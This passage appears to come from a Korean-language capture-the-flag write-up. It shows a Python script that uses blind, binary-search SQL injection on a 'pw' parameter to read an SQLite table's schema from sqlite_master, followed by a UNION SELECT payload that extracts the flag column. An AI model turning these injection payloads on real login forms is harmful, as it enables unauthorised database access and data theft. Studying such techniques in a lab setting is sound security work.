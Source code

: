 => 테이블 명 : flag_70c81d99

**컬럼 명 가져오는 코드**

```python
# sql 문 알아내기 - 이진 탐색 이용
sql = "CREATE TABLE flag_70c81d99"
for i in range(28,100):
    start,end= 0,127
    while True:
        search = (start + end) // 2
        params["pw"] = "' or unicode(substr((select sql from sqlite_master where tbl_name='flag_70c81d99'),{},1)) <= {}-- ".format(i,search)
        response = requests.get(url,params=params,cookies=cookies)
        print(params)
        if "Hello guest" in response.text:
            params["pw"] = "' or unicode(substr((select sql from sqlite_master where tbl_name='flag_70c81d99'),{},1)) = {}-- ".format(i,search)
            response = requests.get(url,params=params,cookies=cookies)
            print(params)
            if "Hello guest" in response.text:
                sql += chr(search)
                print("[{}] : {}".format(i,sql))
                break
            end = search
        else:
            start = search
```

=> 컬럼 명 : flag_0876285c

![image](https://user-images.githubusercontent.com/33647663/167245939-94ab23df-33e3-44cf-a83e-d3a50557130c.png)


테이블 명과, 컬럼 명을 구했으니 해당 컬럼에 있는 데이터는 union select 구문을 이용해서 한 번에 알아낼 수 있습니다.

```pw = ' union select flag_0876285c from flag_70c81d99 --```

![image](https://user-images.githubusercontent.com/33647663/167246114-4e220082-7d94-4b2b-a3fc-b2a2f35269a0.png)



